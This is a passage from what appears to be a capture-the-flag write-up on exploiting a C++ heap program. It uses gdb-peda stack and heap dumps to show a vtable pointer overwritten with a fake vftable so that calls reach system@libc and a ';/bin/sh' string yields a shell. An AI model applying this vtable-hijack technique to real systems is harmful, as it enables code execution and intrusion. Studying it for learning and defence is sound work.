    0x804927a <_Z11do_add_itemPP7HashSetIi8hash_numE+179>:       leave  
   0x804927b <_Z11do_add_itemPP7HashSetIi8hash_numE+180>:       ret    
   0x804927c <_Z12do_find_itemPP7HashSetIi8hash_numE>:  push   ebp
   0x804927d <_Z12do_find_itemPP7HashSetIi8hash_numE+1>:        mov    ebp,esp
Guessed arguments:
arg[0]: 0x86c3a38 --> 0x86c3a70 --> 0x0 
arg[1]: 0xf7561a24 ("/bin/sh")
[------------------------------------stack-------------------------------------]
0000| 0xffd1f250 --> 0x86c3a38 --> 0x86c3a70 --> 0x0 
0004| 0xffd1f254 --> 0xf7561a24 ("/bin/sh")
0008| 0xffd1f258 --> 0xffd1f2a8 --> 0x0 
0012| 0xffd1f25c --> 0xf76718ae (<_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc+46>:  add    esp,0x10)
0016| 0xffd1f260 --> 0x804b0c0 --> 0xf76d1e2c --> 0xf76700d0 (<_ZNSoD1Ev>:      push   ebx)
0020| 0xffd1f264 --> 0x8049a55 ("Enter choice: ")
0024| 0xffd1f268 --> 0x0 
0028| 0xffd1f26c --> 0xf7561a24 ("/bin/sh")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08049278 in do_add_item(HashSet<int, hash_num>**) ()
{% endhighlight %}
Notice that `arg1` points to `set_vec[0]`, and not to "/bin/sh".
***This is because everytime a virtual function is called, the*** `this` ***pointer is implicitly passed in as the first argument!!!***

Therefore, we need to find some other way to spawn a shell. 

To do this, we can instead, first call `gets@libc` to write a `";/bin/sh\0"` string after the fake vptr in `set_vec[0]`. 
Then we can call `system@libc` after this string is written, and now when we do, `arg1` will point to the string `"<fake_vptr>;/bin/sh\0"`, which will call `system("<addr_of_system>;/bin/sh\0");` and give us a shell.

Right before `system("<addr_of_system>;/bin/sh\0");` is called, the heap looks like the following:
{% highlight bash %}
gdb-peda$ x/64xw 0x9b7ba30
0x9b7ba30:      0x00000000      0x00000029      0x09b7ba70      0x69622f3b
0x9b7ba40:      0x68732f6e      0x09b70000      0x00000000      0x00000089
0x9b7ba50:      0xf7648450      0xf7648450      0x00000000      0x00000019
0x9b7ba60:      0x08049aa8      0x00000008      0x00000000      0x09b7ba78
0x9b7ba70:      0x00000000      0x00000029      0xf74de190      0xf7648450
0x9b7ba80:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7ba90:      0x00000000      0x00000000      0x00000000      0x00000039
0x9b7baa0:      0xf7648450      0xf7648450      0x00000000      0x00000000
0x9b7bab0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7bac0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9b7bad0:      0x00000038      0x00000018      0x08049aa8      0x00000008
0x9b7bae0:      0x00000000      0x09b7ba38      0x00000000      0x00020519
{% endhighlight %}


Notice that `set_vec[0]`'s vptr has been overwritten with `0x09b7ba70`, which is where we've placed our fake vftable.
When `do_add_item()` is called, it will derefernce `vftable+0x8` to get the address of what it thinks is the `add()` function.
However, because we've overwritten it with the address of `system@libc`, or `0xf74de190`, we will call `system()` instead.
